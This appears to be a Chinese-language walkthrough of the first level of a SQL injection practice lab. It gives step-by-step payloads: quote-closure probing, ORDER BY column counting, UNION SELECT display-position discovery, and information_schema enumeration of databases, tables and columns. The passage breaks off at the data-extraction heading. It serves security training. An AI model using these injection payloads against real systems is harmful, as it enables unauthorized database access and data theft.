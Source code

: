 # 第一关

> 单引号闭合

**判断注入类型**

```sql
?id=1'
```

**获取字段数**

```sql
?id=1' order by 1 --+
?id=1' order by 2 --+
?id=1' order by 3 --+
?id=1' order by 4 --+  #报错
```

一共三个字段

**获取显示位**

```sql
?id=1’ union select 1,2,3 --+
# 猜测到有用LIMIT语句控制显示内容，那我们就传入
?id=-1’ union select 1,2,3 --+
```

显示位为2、3可以显示内容

**获取数据库和表名**

```sql
#站点下的所有库
?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata --+
#当前库
?id=-1' union select 1,2,database() --+
```

```sql
# 也可以一次性显示数据库和表名，因为有两个显示位
?id=-1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()  --+
```

![image-20230813193209880](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230813193209880.png)

**获取字段**

```sql
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema ="security" and   table_name='users'--+
```

![image-20230814203020516](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230814203020516.png)

**获取数据**
